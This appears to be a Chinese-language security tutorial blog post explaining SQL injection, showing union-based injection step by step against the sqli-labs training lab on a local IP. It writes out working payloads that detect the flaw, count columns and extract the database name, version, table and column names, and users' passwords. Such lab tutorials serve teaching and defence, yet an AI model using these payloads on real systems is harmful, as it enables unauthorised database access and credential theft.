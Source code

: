 #  一文读懂SQL注入漏洞   
simple学安全  simple学安全   2024-11-19 07:16  
  
目录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibbU68UK4TicZDTGk0jAU1VWH63xeJQ5utibeyFS8jky7m5L9mLs6vDCKEFSo9SO3DhRvHWqngiblic6A/640?wx_fmt=png&from=appmsg "")  
  
  
简介  
  
SQL注入指的是web应用程序对用户输入数据的合法性未进行判断，前端传入后端的参数是攻击者可控的，并且参数带入数据库查询；关键点在于**参数用户可控**以及**参数带入数据库查询**。  
  
SQL注入类型  
  
1、**联合查询注入**  
  
关键字：**union select**  
  
联合注入会将结果显示在前端页面。  
  
正常访问：http://192.168.1.128/sqli-labs-master/Less-1/?id=1  
  
1）测试发现   
```
id=1' and '1'='1
id=1' and '1'='2
```  
  
返回不同，说明存在SQL注入漏洞，且为字符型。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RfZ8icA2zvfXwy7Y8LwAQ9sibue897EVCNJvLkN5Z4R8cibiaP8QRZiaeyKg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RBEy410KORZ75jbToB0s1dWbzgTtiaibVZrw7Mn5FCdchPBrkF2zjYcMQ/640?wx_fmt=png&from=appmsg "")  
  
2）利用 **order by num** 确定字段数，当num为3时返回数据，num为4时不返回数据，由此确定字段数为3.  
```
?id=1' order by 3--+
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RGrHJqojf98CHOGM8sBzELkqcM2F7hTnIGuSP1c2mP5wgOThybvtibeg/640?wx_fmt=png&from=appmsg "")  
  
  
3）利用联合查询获得数据  
```
获得网站使用的数据库，这里查询到数据库为security：
?id=-1' union select 1,database(),3--+

获得数据库版本：
?id=-1' union select 1,version(),3--+
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4Rrf3JrDFIpdRrFIjALStdia9j2Ts9JECDUFIXM3WtO0kqZzbFzR2iaiaPA/640?wx_fmt=png&from=appmsg "")  
```
查询指定数据库下的表名，查询到有users表：
?id=-1' union select 1,(select table_name from information_schema.tables where table_schema='security' limit 0,1),3--+

查询指定表下的列名，查询到users表中有password列：
?id=-1' union select 1,(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 2,1),3--+

查询具体数据，这里是查询users表中password列的内容：
?id=-1' union select 1,(select password from security.users limit 2,1),3--+
```  
  